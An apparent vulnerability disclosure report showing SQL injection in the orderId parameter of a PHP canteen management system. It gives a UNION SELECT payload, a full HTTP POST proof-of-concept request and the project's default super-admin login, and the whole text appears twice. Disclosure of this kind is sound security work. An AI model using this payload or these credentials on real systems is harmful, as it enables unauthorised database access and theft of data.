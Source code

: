 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: QiaoRui feng

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/fetchOrderData.php

Vulnerability location: /youthappam/php_action/fetchOrderData.php, userid

dbname =youthappam,length=10

[+] Payload: orderId=-1 union select 1,database(),3,4,5,6,7,8,9,10,11,12,13 // Leak place ---> userid

```sql
POST /youthappam/php_action/fetchOrderData.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

orderId=-1 union select 1,database(),3,4,5,6,7,8,9,10,11,12,13
```

![image](https://user-images.githubusercontent.com/54017627/195266427-5f020f90-2bae-4c4a-867e-d6ab7fe10624.png)
**# Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: QiaoRui feng

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/fetchOrderData.php

Vulnerability location: /youthappam/php_action/fetchOrderData.php, userid

dbname =youthappam,length=10

[+] Payload: orderId=-1 union select 1,database(),3,4,5,6,7,8,9,10,11,12,13 // Leak place ---> userid

```sql
POST /youthappam/php_action/fetchOrderData.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

orderId=-1 union select 1,database(),3,4,5,6,7,8,9,10,11,12,13
```

![image](https://user-images.githubusercontent.com/54017627/195266427-5f020f90-2bae-4c4a-867e-d6ab7fe10624.png)
**
